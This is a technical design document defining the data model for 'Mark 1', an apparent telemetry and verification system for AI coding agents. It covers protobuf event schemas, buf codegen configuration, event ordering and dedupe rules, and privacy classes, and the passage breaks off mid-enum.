


# 07 — Data Model

**Status:** written 2026-08-28. Authoritative for every persisted or transmitted byte in Mark 1.

This document and `08-api-contracts.md` are the concrete contracts. Every other design document
cites these rather than restating them; where a design document disagrees with this one, this one
wins, and the disagreement is a bug in the other document. Where this document disagrees with the
frozen plan (`spec/execution-plan-v2.md`), the plan wins and the conflict is recorded in
`RECONCILIATION.md`.

The schema definitions below are not illustrative. The protobuf, the SQL, the DDL and the CDDL
are meant to be copied into the repository as written, so they are complete rather than
suggestive.

## Contents

| Part | Covers |
|---|---|
| §1–§7 | Protocol and edge formats: buf governance, `m1p.v1` protobuf, M1PL local framing, the spool segment binary layout, and cross-layer identity and dedupe |
| §8–§12 | Postgres core: migration conventions, tenancy and devices, the receipt chain, witness heads, the verifier and anchor registry |
| §13–§19 | Postgres intelligence: noise certificates and gold sets, memory artifacts, federation and the ε ledger, policy bundles, coverage, roles and grants, and the ER overview |
| §20–§28 | Analytics and corpus: the ClickHouse ledger, the ordering-key argument, rollups and the waste taxonomy, `task_seg.v1`, PolicyBundle v1 CBOR, the S3 layout, both corpus schemas, edge stores, and retention |

Section numbers within each part are local to that part; the table above gives the reading order.

---

## 1. Naming, versioning and codegen policy

The protocol package is `m1p.v1`, sources at `proto/m1p/v1/*.proto`. It deliberately does not use the estate's `omiumpb/<domain>/v1` prefix: `omium-mark1` is a standalone repo and the schema name is customer-visible protocol surface (`M1P-Schema: m1p.v1` rides on every ingest request), so the package *is* the brand.

**Version policy.**

- A breaking change is a new package, `m1p.v2`, in a new directory `proto/m1p/v2/`. `m1p.v1` is never edited in place; it stays served for as long as `m1p-registry` lists it in any tenant's accepted window.
- Deleted fields are `reserved` — both number and name — so a number can never be silently reused with a different meaning.
- Within a major, changes are additive only. Receivers skip-and-retain unknown event types within a major, so an old `controld` can land events from a newer edge without loss.
- **There is no `wasm_module` field in `m1p.v1`, and no reserved slot for one.** The bundle→RCE branch is deleted, not parked; if learned policies ever need code, that is `PolicyBundle v2` with a separately held signing key — a new field number then costs nothing.

**Buf governance.** `buf lint` at `STANDARD` with zero ignores (this repo has no pre-existing naming quirks to grandfather). `buf breaking` runs in CI against `main` at **`WIRE_JSON`**, not the estate's `FILE`: all four language bindings regenerate together in this one repo, so source-level breaks are caught by the compilers in the same PR; the only invariant that must survive across *deployed fleets* is wire + JSON compatibility, and that is exactly what `WIRE_JSON` pins.

```yaml
# omium-mark1/proto/buf.yaml
version: v2
modules:
  - path: .
lint:
  use:
    - STANDARD
breaking:
  use:
    - WIRE_JSON
```

**Codegen: committed, not build-time.** The estate convention is committed generated code — the Rust planes `include!` checked-in output and run no `build.rs`. The alternative (generate in `build.rs` at build time) guarantees freshness and keeps generated noise out of diffs. Mark 1 **follows the estate: committed codegen, no `build.rs` anywhere**, because Mark 1 ships signed, SLSA-attested edge binaries on three OSes — a build that needs no `protoc`/buf toolchain is hermetic, reproducible from `--locked` alone, and the schema diff is reviewable in the PR that changes it. Drift, the one real risk of committing output, is closed mechanically: CI runs `buf generate && git diff --exit-code proto/gen`. This decision is recorded in an ADR (`docs/adr/` — codegen strategy), since reversing it later touches every crate's build.

One proto source feeds all three languages. No gRPC plugins appear anywhere — M1P is plain HTTPS POST to the edge, never gRPC, so generating service stubs would be dead code inviting accidental use.

```yaml
# omium-mark1/proto/buf.gen.yaml
# Remote plugins PINNED for deterministic output; the CI freshness gate depends on it.
version: v2
managed:
  enabled: true
  override:
    - file_option: go_package_prefix
      value: github.com/Omium-ai/omium-mark1/proto/gen/go
plugins:
  # ---- Go (mark1d, controld, mark1 CLI) ----
  - remote: buf.build/protocolbuffers/go:v1.36.6
    out: gen/go
    opt: paths=source_relative

  # ---- Python (adjudicator-svc, mark1-intel) ----
  # The frozen plan names betterproto; if its pre-1.0 status bites, the recorded
  # fallback is the estate's pinned buf.build/protocolbuffers/python:v29.3 + pyi.
  - remote: buf.build/community/danielgtaylor-betterproto:v2.0.0b7
    out: gen/python

  # ---- Rust (m1p-wire include!s this output; no build.rs) ----
  - remote: buf.build/community/neoeinstein-prost:v0.4.0
    out: gen/rust
    opt:
      - compile_well_known_types
```

## 2. Envelope and identity

```protobuf
// proto/m1p/v1/envelope.proto
syntax = "proto3";

package m1p.v1;

import "google/protobuf/timestamp.proto";
import "m1p/v1/events.proto";
import "m1p/v1/intelligence.proto";

// The batch envelope. Exactly one Batch per POST /m1p/v1/ingest body
// (zstd-compressed application/x-m1p-protobuf).
message Batch {
  // Client-supplied. 16-byte UUIDv7, minted per upload attempt-group and
  // echoed in the M1P-Batch-Id header so transport logs and payloads join.
  bytes batch_id = 1;

  // Client-supplied. 16-byte UUIDv7 of the agent session all events belong to.
  bytes session_id = 2;

  // Client-supplied. Identifies the emitting edge software, not the user.
  SdkInfo sdk = 3;

  // Client-supplied, stamped at send time (not event time). The server
  // computes clock skew from this; it is never used for ordering.
  google.protobuf.Timestamp sent_at = 4;

  repeated Event events = 5;

  // Accounting for everything that did NOT make it into events[] since the
  // last acked batch: spool sheds, CRC losses, unsupported-agent drops.
  // Rides beside the events rather than among them because a dropped event
  // cannot carry itself.
  repeated Dropped dropped = 6;

  // ---------------------------------------------------------------------
  // ADVISORY CROSS-CHECK FIELDS — NOT IN THE TRUST PATH.
  // The authoritative tenant_id and device_id are stamped by controld from
  // the verified bearer-token claims, never read from this envelope. These
  // copies exist only so a mismatch is detectable: if either is non-empty
  // and disagrees with the token claims, controld REJECTS the batch
  // (403, M1E-8003) and emits a security event. 403 not 400: the batch is
  // perfectly well-formed, it is asserting an identity it does not hold —
  // Forbidden, not malformed. They are cross-checks, not inputs.
  // ---------------------------------------------------------------------
  bytes advisory_device_id = 7;  // 16 bytes or empty
  bytes advisory_tenant_id = 8;  // 16 bytes or empty
}

message SdkInfo {
  string name = 1;           // e.g. "mark1d"
  string version = 2;        // semver of the emitting binary
  string os = 3;             // "linux" | "darwin" | "windows"
  string arch = 4;           // "amd64" | "arm64"
  string agent = 5;          // wrapped agent: "claudecode" | "codex" | ...
  string agent_version = 6;  // as sniffed at runtime, drives field-map choice
}

// The per-event envelope. Common identity + exactly one typed body.
message Event {
  // ---- Client-stamped identity ------------------------------------------

  // 16-byte UUIDv7, RFC 9562 Method 1: a monotonic counter per daemon
  // guarantees strict ordering even for same-millisecond bursts. See the
  // four-role note below this file.
  bytes event_id = 1;

  // Per-session monotonic sequence assigned by mark1d at admission. This is
  // the causal-order source of truth: developer clocks drift, so wall-clock
  // ordering across events is not trustworthy; seq is. Unique only WITHIN a
  // session_epoch — read the pair, never seq alone (see below this file).
  uint64 seq = 2;

  // 16-byte session UUIDv7; duplicates Batch.session_id so events remain
  // self-describing after the batch envelope is shed at ingest.
  bytes session_id = 3;

  // 16-byte task UUIDv7 assigned at TaskOpen under task_seg.v1 rules;
  // empty for events that precede or outlive any task.
  bytes task_id = 4;

  // Client wall clock at the instant the event occurred. Display and
  // skew-analysis only — never ordering, never billing windows.
  google.protobuf.Timestamp occurred_at = 5;

  // Daemon-boot epoch qualifying seq. Assigned by mark1d at boot from a
  // durable per-device counter; constant for one mark1d process. uint32, not
  // uint64: it counts boots on ONE device, and the narrower type keeps it
  // from reading like a clock — it is never compared across devices and
  // never interpreted as time. Rides the Event, not the Batch, because one
  // batch legitimately mixes epochs (see below this file).
  uint32 session_epoch = 6;

  // ---- Body (exactly one) -------------------------------------------------
  oneof body {
    // events.proto families (10–29)
    SessionStart session_start = 10;
    SessionEnd session_end = 11;
    TaskOpen task_open = 12;
    TaskClose task_close = 13;
    Turn turn = 14;
    ToolUse tool_use = 15;
    ModelRequest model_request = 16;
    ModelResponse model_response = 17;
    Usage usage = 18;
    CoverageTransition coverage_transition = 19;
    GuardDecision guard_decision = 20;
    ReceiptCheckpoint receipt_checkpoint = 21;
    EdgeHealth edge_health = 22;  // diagnostic-class fleet health; §3

    // intelligence.proto families (30–49)
    AnchorVote anchor_vote = 30;
    JudgeVote judge_vote = 31;
    RmScore rm_score = 32;
    ConsistencyVote consistency_vote = 33;
    VerdictEvent verdict_event = 34;
    CortexInjection cortex_injection = 35;
    MemoryInjection memory_injection = 36;
    ArtifactOutcome artifact_outcome = 37;
    RouteDecision route_decision = 38;
    EvidenceExcerpt evidence_excerpt = 39;  // opt-in tiers only (E1/E2)
  }

  // ---- SERVER-STAMPED band (900–999) --------------------------------------
  // Populated by controld.ingest from VERIFIED token claims and its own
  // clock, after batch acceptance. MUST be unset on the client wire: any
  // client-set value in this band ⇒ batch reject + security event. For
  // tenant_id/device_id that reject is the same identity-disagreement
  // 403 M1E-8003 as the advisory band above, not 400.
  // The band lives in the same message so one type flows from hook stdin to
  // ClickHouse row with no lossy re-mapping.
  bytes tenant_id = 900;                          // SERVER-STAMPED
  bytes device_id = 901;                          // SERVER-STAMPED
  google.protobuf.Timestamp received_at = 902;    // SERVER-STAMPED
  sint64 clock_skew_ms = 903;                     // SERVER-STAMPED, sent_at vs received_at
}
```

**`event_id` carries four roles at once**, and the design only works while they stay the same 16 bytes:

| Role | Where | What breaks if this role uses a different key |
|---|---|---|
| Server dedupe key | `controld.ingest` idempotent upsert | Crash-replay from the spool re-sends events the server can no longer collapse → billing overcount, the exact defect Mark 1 exists to kill |
| ClickHouse ordering component | `ReplacingMergeTree` key tail | Replacing-merge can only collapse rows that collide on the ORDER BY key; a different key means duplicates survive merges forever |
| Spool cursor | leading 16 bytes of every spool `record_id` (§6) | The ack cursor would no longer name the same object the server deduped, so "resume from ack" could skip or double-send records |
| Receipt-checkpoint leaf | Merkle leaf identity in `ReceiptCheckpoint` | An inclusion proof would attest a different object than the one billed — the offline verifier verifies something other than the ledger, and the receipt product is decoration |

Method-1 (monotonic counter) rather than Method-2 (random increment) because strict per-daemon monotonicity makes spool order, id order, and the ClickHouse insert component agree by construction instead of by luck.

**`session_epoch` — what makes `seq` orderable across a daemon restart.** `seq` is assigned from a counter in `mark1d`'s memory, but sessions outlive the daemon (04 §11.4 treats launchd killing `mark1d` during sleep as routine, not an edge case) and fully-acked segments are deleted whole (§6), so the high-water mark is not reconstructible from disk. A restarted daemon would re-issue `seq` 1, 2, 3… into a still-live session: duplicate `(session_id, seq)` pairs, and spill-ring replay draining pre-crash events *after* post-restart ones — causal order inverted in exactly the window where it matters most. `session_epoch` is a per-device counter bumped once per `mark1d` boot from durable storage and stamped on every event that daemon admits.

**Ordering rule, normative.** Within one `session_id`, causal order is the **lexicographic order of the pair `(session_epoch, seq)`** — compare `session_epoch` first, `seq` only to break ties. **Every consumer that reads `seq` for order reads the pair instead**: the causal-order claim above, the §6/§7 replay and dedupe paths, `task_seg.v1` denominators, and attempt-indexed knee fitting. **`(session_id, session_epoch, seq)` is unique; `(session_id, seq)` alone is not.** Two implementations given the same events therefore produce the same order without consulting a clock, which is the whole point — `occurred_at` never enters the comparison, at any tie depth. `session_epoch` rides the `Event` and not the `Batch` because one batch legitimately mixes epochs: after a restart the uploader drains pre-restart spool records alongside freshly admitted ones.

## 3. Event families — `events.proto`

Privacy classes used in field comments, here and in §4:

- **[P0] operational** — counts, timings, enum codes, public tool/model names. No user content, nothing derived from it.
- **[P1] pseudonymous** — vendor-issued opaque IDs and per-tenant-HMAC digests. Joinable within a tenant, meaningless across tenants and to Omium.
- **[P2] content-derived** — never appears in this file. The only P2 carrier is `EvidenceExcerpt` (§4), an opt-in class.

`// SERVER-STAMPED` marks fields controld fills; everything else is client-supplied. Enum zero values follow buf `STANDARD` (`*_UNSPECIFIED`) and decode as "sender newer than receiver — retain, don't guess".

```protobuf
// proto/m1p/v1/events.proto
syntax = "proto3";

package m1p.v1;

// ---------------------------------------------------------------------------
// Session lifecycle
// ---------------------------------------------------------------------------

message SessionStart {
  string agent = 1;           // [P0] catalog name: "claudecode" | "codex" | ...
  string agent_version = 2;   // [P0] runtime-sniffed; gates field-map selection
  bytes workspace_id = 3;     // [P1] HMAC_tenant(workspace root path), 32 bytes.
                              //      Never the path itself — paths are content.
  repeated CapturePath capture_paths = 4;  // [P0] which capture surfaces are live
}

enum CapturePath {
  CAPTURE_PATH_UNSPECIFIED = 0;
  CAPTURE_PATH_HOOKS = 1;       // hookshim events
  CAPTURE_PATH_TRANSCRIPT = 2;  // tailer over the agent's transcript files
  CAPTURE_PATH_PROXY = 3;       // wire proxy tee (API-key regime only)
}

message SessionEnd {
  EndReason reason = 1;    // [P0]
  uint64 duration_ms = 2;  // [P0] wall-clock session length
  bool drained = 3;        // [P0] mandatory spool drain completed before exit;
                           //      false means the next boot replays (§6)
}

enum EndReason {
  END_REASON_UNSPECIFIED = 0;
  END_REASON_EXIT = 1;            // clean agent exit
  END_REASON_CRASH_DETECTED = 2;  // tailer saw the session die without an exit
  END_REASON_IDLE_TIMEOUT = 3;    // session aged out
}

// ---------------------------------------------------------------------------
// Task segmentation — the TVO denominator (contract C1)
// ---------------------------------------------------------------------------

message TaskOpen {
  // [P0] The versioned, receipted segmentation algorithm that minted this
  // task_id (e.g. "task_seg.v1"). Stamped on EVERY TaskOpen so any TVO
  // number can name the denominator rules it was computed under.
  string task_seg_version = 1;

  // [P1] 16 bytes; set when task_seg merged this task into a predecessor
  // (follow-up within N turns touching the same files = same task).
  bytes parent_task_id = 2;

  // [P1] HMAC_tenant over the normalized opening prompt, 32 bytes. Feeds
  // memory-facet retrieval; the prompt text itself never leaves the machine.
  bytes prompt_digest = 3;

  // [P1] HMAC_tenant over the sorted touched-file set, 32 bytes. This is the
  // "same files" input to the task_seg merge rule, carried so merges are
  // auditable without carrying paths.
  bytes file_set_digest = 4;
}

message TaskClose {
  Resolution resolution = 1;    // [P0] denominator class
  bytes final_verdict_id = 2;   // [P1] event_id of the closing VerdictEvent;
                                //      empty iff resolution is UNRESOLVED
  uint32 turn_count = 3;        // [P0]
}

enum Resolution {
  RESOLUTION_UNSPECIFIED = 0;
  RESOLUTION_VERDICT = 1;               // closed by a VerdictEvent
  RESOLUTION_UNRESOLVED_SESSION_END = 2; // session ended without a verdict —
                                         // a first-class denominator class,
                                         // never silently excluded
  RESOLUTION_MERGED_FORWARD = 3;         // task_seg merged this into a successor
}

// ---------------------------------------------------------------------------
// Turn / tool activity
// ---------------------------------------------------------------------------

message Turn {
  uint32 turn_index = 1;     // [P0] 0-based within the session
  Initiator initiator = 2;   // [P0] who caused this turn
}

enum Initiator {
  INITIATOR_UNSPECIFIED = 0;
  INITIATOR_HUMAN = 1;
  INITIATOR_AGENT = 2;
  INITIATOR_GATE_CONTINUATION = 3;  // a Mark 1 gate injected the continuation
}

message ToolUse {
  // [P0/P1] Built-in tool names on the per-agent allow-list pass literally
  // ("Bash", "Edit", ...); any name NOT on that list (MCP tools can embed
  // project names) is replaced by HMAC_tenant(name) hex — so unknown names
  // can't leak content while known ones stay analyzable.
  string tool_name = 1;
  string tool_use_id = 2;    // [P1] agent-issued opaque id, joins hook pairs
  uint64 duration_ms = 3;    // [P0]
  ToolStatus status = 4;     // [P0]
}

enum ToolStatus {
  TOOL_STATUS_UNSPECIFIED = 0;
  TOOL_STATUS_OK = 1;
  TOOL_STATUS_ERROR = 2;
  TOOL_STATUS_TIMEOUT = 3;
  TOOL_STATUS_DENIED = 4;  // agent permission system refused it
}

// ---------------------------------------------------------------------------
// Wire observations (proxy tee — API-key regime only). No bodies, ever.
// ---------------------------------------------------------------------------

message ModelRequest {
  string request_id = 1;    // [P1] vendor-issued
  string model = 2;         // [P0] as requested (pre-rewrite)
  string served_model = 3;  // [P0] as forwarded (post-rewrite); equals model
                            //      when no RouteDecision rewrote it
  bool stream = 4;          // [P0]
  uint64 request_bytes = 5; // [P0] on-wire size, post-redaction
}

message ModelResponse {
  string request_id = 1;    // [P1] joins to ModelRequest
  uint32 status_code = 2;   // [P0]
  uint64 ttfb_ms = 3;       // [P0] time to first byte
  uint64 duration_ms = 4;   // [P0]
  uint64 response_bytes = 5;// [P0]
  string stop_reason = 6;   // [P0] vendor grammar: "end_turn" | "max_tokens" | ...
}

// ---------------------------------------------------------------------------
// Usage — the billing fact. One row per (session, message.id, request_id).
// ---------------------------------------------------------------------------

message Usage {
  // [P1] 32 bytes: HMAC-SHA256 keyed by the tenant's usage-idem key
  // (HKDF from the tenant HMAC root, label "m1p.usage.idem") over
  //   session_id(16 raw bytes) || 0x00 || message_id(utf8) || 0x00 || request_id(utf8).
  // PROTOCOL INVARIANT — see the worked example below this file. The server
  // dedupes on this key unconditionally; a parser that "already dedupes"
  // does not get to skip computing it.
  bytes idem_key = 1;

  string message_id = 2;   // [P1] vendor-issued (Anthropic msg_...)
  string request_id = 3;   // [P1] vendor-issued
  string model = 4;        // [P0]

  uint64 input_tokens = 5;                 // [P0]
  uint64 output_tokens = 6;                // [P0]
  uint64 cache_creation_input_tokens = 7;  // [P0]
  uint64 cache_read_input_tokens = 8;      // [P0]
  string service_tier = 9;                 // [P0] as reported by the vendor

  UsageSource source = 10;  // [P0] provenance of the count
}

enum UsageSource {
  USAGE_SOURCE_UNSPECIFIED = 0;
  USAGE_SOURCE_TRANSCRIPT = 1;  // tailer-parsed transcript line
  USAGE_SOURCE_PROXY_TEE = 2;   // proxy-observed wire usage block
}

// ---------------------------------------------------------------------------
// Coverage, guard, receipts, loss accounting
// ---------------------------------------------------------------------------

// Per-event receipted: every enable/disable/bypass window is attributable,
// and TVO reports refuse guarantee-grade issuance below the coverage floor.
// DIAGNOSTIC durability class (§6), not billing-grade — receipted and
// block-on-full are independent properties, and only the three classes §6
// names are billing-grade. Spool class byte = 2.
message CoverageTransition {
  CoverageKind kind = 1;    // [P0]
  bytes workspace_id = 2;   // [P1] HMAC_tenant(workspace root path)
  uint64 duration_ms = 3;   // [P0] length of a closed bypass window; 0 otherwise
  string reason_code = 4;   // [P0] machine code: "mark1_off" | "disk_hard_stop" | ...
}

enum CoverageKind {
  COVERAGE_KIND_UNSPECIFIED = 0;
  COVERAGE_KIND_ENABLE = 1;
  COVERAGE_KIND_DISABLE = 2;
  COVERAGE_KIND_BYPASS = 3;  // capture degraded (e.g. proxy auto-bypass)
}

// Sampled record of the OAuth-provenance guard. Refusal is provable, not
// asserted: sample_rate is carried so honest rates reconstruct.
message GuardDecision {
  GuardOutcome outcome = 1;     // [P0]
  bytes cred_fingerprint = 2;   // [P1] HMAC_tenant of the enrollment-matched
                                //      credential fingerprint, 32 bytes
  double sample_rate = 3;       // [P0] probability this decision was emitted
  string reason_code = 4;       // [P0] "unprovisioned_cred" | "oauth_marker" | ...
}

enum GuardOutcome {
  GUARD_OUTCOME_UNSPECIFIED = 0;
  GUARD_OUTCOME_FORWARDED = 1;
  GUARD_OUTCOME_REFUSED = 2;  // 403, no override path exists in the binary
}

// Edge announcement of a checkpoint (contract C13): batch N events / T
// seconds -> Merkle root -> chained dual-signed receipt in Postgres.
message ReceiptCheckpoint {
  uint64 checkpoint_seq = 1;   // [P0] per-device gap-free
  bytes merkle_root = 2;       // [P0] 32 bytes, BLAKE3 over event_id leaves
  uint32 leaf_count = 3;       // [P0]
  bytes first_event_id = 4;    // [P1] inclusive leaf range, in event_id order
  bytes last_event_id = 5;     // [P1]
  bytes origin_signature = 6;  // [P0] 64 bytes, Ed25519 device key over the
                               //      domain-prefixed root ("mark1-label-v1\0")
  string key_id = 7;           // [P0] "ed25519:" + sha256(pub)[:16]
}

// Loss accounting. Exactly three fields by design: what, which durability
// class, how many. Every shed, CRC loss, quarantine, ring eviction, ring
// expiry, gate timeout, and parse degradation MUST appear here in the next
// batch — silence is the one failure mode the ledger can't price.
message Dropped {
  DropReason reason = 1;   // [P0]
  reserved 2;              // was `string category` (event-family name)
  reserved "category";
  uint64 quantity = 3;     // [P0]
  DurabilityClass durability_class = 4;  // [P0]
}

enum DropReason {
  DROP_REASON_UNSPECIFIED = 0;
  DROP_REASON_SPOOL_SHED = 1;                // diagnostics drop-newest on full
  DROP_REASON_CRC_LOSS = 2;                  // torn/corrupt spool record (§6)
  DROP_REASON_UNSUPPORTED_AGENT_VERSION = 3; // sniffed version has no field map
  DROP_REASON_LOCAL_QUARANTINE = 4;          // admit-to-upload redaction refused it
  DROP_REASON_GATE_TIMEOUT = 5;              // fail-open allow, decision unrecorded
  DROP_REASON_QUARANTINED = 6;               // poison batch moved out of the spool
  DROP_REASON_FABRIC_UNAVAILABLE = 7;        // M1PL unreachable, payload recomputable
  DROP_REASON_RING_EVICTED = 8;              // spill ring overwrote-oldest on wrap
  DROP_REASON_RING_EXPIRED = 9;              // spill ring ≤24 h TTL swept it
  DROP_REASON_PARSE_DEGRADED = 10;           // mark1-frames fell back to opaque
}

// The spool's durability classes, values deliberately equal to the spool
// record's class byte [16] (§6).
enum DurabilityClass {
  DURABILITY_CLASS_UNSPECIFIED = 0;
  DURABILITY_CLASS_BILLING_GRADE = 1;
  DURABILITY_CLASS_DIAGNOSTIC = 2;
}

// ---------------------------------------------------------------------------
// Edge fleet health — the one family this document does not transcribe
// ---------------------------------------------------------------------------
//
// message EdgeHealth — RATIFIED into m1p.v1 as Event.body field 22, diagnostic
// durability class, rate-limited to one per 15 minutes per device. Its field
// set, cadence and normative privacy rule are specified once, in 11 §2.3, and
// events.proto is transcribed from there rather than from here. One owner: a
// health gauge is added or refused in 11 §2.3, and a second copy in this file
// would be nothing but a place for the two to drift. Every other block in this
// document is complete; this is the deliberate exception and the only one.
```

**Why `Dropped.durability_class` replaced `category`.** The old field carried the event-family name ("usage", "tool_use", …). Two things make that the wrong axis. First, **what the loss ledger prices is `reason × class`, not `reason × family`**: the coverage band narrows by `dropped_billing / (dropped_billing + events_billing_ingested)` (see the ClickHouse rollups), which needs the class and never the family. Second, the class is already on the outside of the payload — spool record byte [16] is exactly `{1 = billing-grade, 2 = diagnostic}` (§6), so **a drop stays attributable without decoding protobuf**, which is what lets the recovery scan in §6 step 4 account a torn record it cannot parse. A family name cannot be recovered from a corrupt payload; a class can be read from the intact record header. The enum values are deliberately equal to that byte so no mapping table exists to get wrong. `11` §3 additionally requires every metric label to be a closed enum, and an event-family name mirrored into `dropped_total` was an open string.

String→enum changes the wire type, so field 2 is `reserved` under §1's rule rather than reused: an old encoder's `category` bytes must fail to decode as `durability_class`, not silently land in it.

**The reason set is the union of the emission sites, not a guess.** Every site that normatively emits `Dropped{}` maps to exactly one value: spool shed and CRC loss (§6), local quarantine (admit-to-upload), unsupported agent version (04 §3.4), gate timeout (04 §2.3, 04 §3.4, 08 §4.4 — the fail-open allow whose decision went unrecorded), batch quarantine (04 §2.4), fabric unavailable (04 §6.6, 08 §4.4), spill-ring eviction on wrap and TTL expiry (§25 edge stores), and `mark1-frames` parse degradation (11 §3.2). `11` §3.1's `dropped_total` label enumeration is the same ten values and is checked against this enum by the conformance suite; a reason emitted anywhere without a value here would collapse to `UNSPECIFIED`, which is the ledger going quiet — the one failure it exists to prevent.

**The `Usage.idem_key` invariant, worked.** Claude Code streams a response and writes the transcript line for one assistant message up to four times — a `message_start` snapshot, mid-stream rewrites, the final cumulative line, and sometimes a post-compaction rewrite. Every line carries a `usage` block; the counts are *cumulative*, not deltas:

| Transcript line | `message.id` | `requestId` | `output_tokens` on the line |
|---|---|---|---|
| 1 (message_start) | `msg_01XYZ` | `req_011AB` | 1 |
| 2 (mid-stream) | `msg_01XYZ` | `req_011AB` | 512 |
| 3 (final) | `msg_01XYZ` | `req_011AB` | 1268 |
| 4 (rewrite) | `msg_01XYZ` | `req_011AB` | 1268 |

Naive summing bills 3049 output tokens for a 1268-token response — the verified ~2.5× streaming overcount. All four lines produce Usage events with four distinct `event_id`s but **one identical `idem_key`** = HMAC_tenant(`session_id`, `msg_01XYZ`, `req_011AB`). The server upserts on `idem_key`, keeping the row with the **greatest `event_id`** (latest write carries the cumulative final counts). One billing fact survives. Two adjacent rules complete the defense: sidechain transcript lines (subagent re-logs of the same message) are dropped by the tailer before emission, and when both transcript and proxy observe the same request, `UsageSource` lets the rollup prefer the wire count without double-billing — same `idem_key`, so it *can't* double-bill.

## 4. Intelligence events — `intelligence.proto`

```protobuf
// proto/m1p/v1/intelligence.proto
syntax = "proto3";

package m1p.v1;

// The four-verdict vocabulary, adopted verbatim from the platform's
// sweep_verdict enum (migration 008). Order is load-bearing: posterior[i]
// corresponds to enum value i+1. ERROR is infrastructure failure, distinct
// from VIOLATED — conflating them incurs provable excess risk (Paper II).
enum Verdict {
  VERDICT_UNSPECIFIED = 0;
  VERDICT_SATISFIED = 1;
  VERDICT_VIOLATED = 2;
  VERDICT_REFUSED = 3;
  VERDICT_ERROR = 4;
}

// ---------------------------------------------------------------------------
// Evidence — typed, never free text (default tier E0)
// ---------------------------------------------------------------------------

// The ONLY default-tier evidence carrier. Deliberately has no field that
// could hold a path or an excerpt — the constraint is structural, not
// a validation rule someone can forget.
message EvidenceRecord {
  string tool = 1;             // [P0] local-catalog anchor/verifier id ("ruff",
                               //      "tsc-incremental", ...); never a command
  string diagnostic_code = 2;  // [P0] tool's own code ("E0308", "TS2345") —
                               //      finite public vocabulary, safe literal
  EvidenceCategory category = 3; // [P0]
  EvidenceCounts counts = 4;     // [P0]
  PathRole path_role = 5;        // [P0] role of the affected file, NOT its path
  bytes output_hmac = 6;         // [P1] 32 bytes, HMAC_tenant over the tool's
                                 //      structurally-normalized output — see
                                 //      the salting note below
}

enum EvidenceCategory {
  EVIDENCE_CATEGORY_UNSPECIFIED = 0;
  EVIDENCE_CATEGORY_LINT = 1;
  EVIDENCE_CATEGORY_TYPE = 2;
  EVIDENCE_CATEGORY_BUILD = 3;
  EVIDENCE_CATEGORY_TEST = 4;
  EVIDENCE_CATEGORY_SECURITY = 5;
}

message EvidenceCounts {
  uint32 errors = 1;          // [P0]
  uint32 warnings = 2;        // [P0]
  uint32 files_affected = 3;  // [P0]
}

enum PathRole {
  PATH_ROLE_UNSPECIFIED = 0;
  PATH_ROLE_TEST = 1;
  PATH_ROLE_SRC = 2;
  PATH_ROLE_CONFIG = 3;
  PATH_ROLE_VENDOR = 4;
}

// Opt-in tiers only. Never emitted unless the tenant enabled the class;
// the payload itself travels as a multipart attachment, not inline —
// so the default decode path physically cannot receive content.
message EvidenceExcerpt {
  EvidenceTier tier = 1;            // [P0] E1 or E2 only; E0 has no excerpt
  bytes evidence_event_id = 2;      // [P1] the EvidenceRecord this expands
  string attachment_name = 3;       // [P0] multipart part name
  bytes redaction_receipt_id = 4;   // [P1] receipt proving the scrub ran (E1)
}

enum EvidenceTier {
  EVIDENCE_TIER_UNSPECIFIED = 0;
  EVIDENCE_TIER_E0 = 1;  // typed record only (the default)
  EVIDENCE_TIER_E1 = 2;  // sanitized diff hunks, redaction-receipted (opt-in)
  EVIDENCE_TIER_E2 = 3;  // full diff (VPC/self-host only)
}

// ---------------------------------------------------------------------------
// Verifier votes (contract C2)
// ---------------------------------------------------------------------------

message AnchorVote {
  string anchor_id = 1;          // [P0] local-catalog id, user-consented
  Verdict vote = 2;              // [P0]
  EvidenceRecord evidence = 3;   // [P0/P1] E0 always rides with the vote
  AnchorIntegrity integrity = 4; // anti-tamper envelope, device-signed at origin
}

message AnchorIntegrity {
  bytes worktree_merkle_root = 1;      // [P1] BLAKE3 root from cortexd's L0 —
                                       //      one hash table serves cortex
                                       //      provenance AND anti-tamper
  map<string, bytes> resolved_binary_hashes = 2; // [P0] tool name -> BLAKE3 of
                                       // the binary actually executed (defeats
                                       // PATH shims)
  bytes env_scrub_attestation = 3;     // [P0] hash of the allow-listed env the
                                       //      anchor ran under
  DiffClassification diff_classification = 4; // [P0]
  sint32 suppression_directive_delta = 5;     // [P0] change in lint-suppression
                                       // directive count this attempt — the
                                       // cheapest reward-hacking tell
  bool tamper = 6;                     // [P0] any integrity check failed;
                                       //      tampered votes never certify
}

enum DiffClassification {
  DIFF_CLASSIFICATION_UNSPECIFIED = 0;
  DIFF_CLASSIFICATION_NONE = 1;
  DIFF_CLASSIFICATION_SRC_ONLY = 2;
  DIFF_CLASSIFICATION_TEST_TOUCHED = 3;
  DIFF_CLASSIFICATION_CONFIG_TOUCHED = 4;
  DIFF_CLASSIFICATION_SUPPRESSION_TOUCHED = 5;
}

message JudgeVote {
  string judge_id = 1;         // [P0] "judge:<name>@<version>" registry key
  Verdict vote = 2;            // [P0]
  EvidenceTier tier_used = 3;  // [P0] what the judge actually saw
  bytes rubric_hash = 4;       // [P1] HMAC_tenant of the rubric prefix served
  JudgeLocus locus = 5;        // [P0]
}

enum JudgeLocus {
